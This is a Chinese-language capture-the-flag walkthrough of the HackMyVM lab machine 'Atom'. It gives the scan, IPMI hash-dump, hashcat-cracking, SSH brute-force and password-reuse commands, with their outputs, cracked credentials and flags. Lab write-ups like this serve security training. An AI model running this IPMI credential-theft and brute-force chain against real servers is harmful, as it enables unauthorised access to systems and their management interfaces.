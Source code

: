 # Atom

2025.03.23 https://hackmyvm.eu/machines/machine.php?vm=Atom

[video]()

## Ip

192.168.5.39

## Scan

tcp 上没开放端口，udp 上开放了 623/udp open asf-rmcp 是一种 IPMI 协议：

```
sudo nmap -sU --min-rate 10000 --top-ports 2000 192.168.5.40
```

在 msf 中有这样的扫描模块：auxiliary/scanner/ipmi/ipmi_cipher_zero 确认存在漏洞之后，可以使用这个模块 dump 枚举出的用户的密码 auxiliary/scanner/ipmi/ipmi_dumphashes (参考链接 https://hacktricks.boitatech.com.br/pentesting/623-udp-ipmi)

```
Hash for user 'admin' matches password 'cukorborso'
```

使用获得的凭据进行 ssh 登陆，不行。在用上面的这个凭据，在获取一下 user list：

```
sudo apt install ipmitool
ipmitool -I lanplus -H 192.168.5.40 -U admin -P cukorborso user list|awk -F ' ' '{print $2}'|grep -v 'true' > name.txt
```

将获得的用户名和哈希保存到 dump 文件，进行处理：

```
cat dump|awk -F ' ' '{print $8}'|awk -F ':' '{print $2":"$3}' > hash1
```

然后用 hashcat 7300 模式进行破解：

```
hashcat -a 0 -m 7300 hash1 /usr/share/wordlists/rockyou.txt --potfile-disable
```

然后将结果保存，进行处理，拿到最后一个字段：

```
cat out|awk -F ':' '{print $3}' > pass
```

然后将上面获得的 user 和 pass 进行 ssh 爆破,找到 1 个登陆凭据：

```
[22][ssh] host: 192.168.5.40   login: onida   password: jiggaman
```

直接拿到 user flag:

```
onida@atom:~$ cat user.txt
f75390001fa2fe806b4e3f1e5dadeb2b
```

在 /var/www/html 目录中发现 atom-2400-database.db ，查看其内容，爆破 user 表种 atom 用户的密码为 madison ，尝试用密码 madison 切换到 root，切换成功。

root flag:

```
root@atom:~# cat root.txt
d3a4fd660f1af5a7e3c2f17314f4a962
```
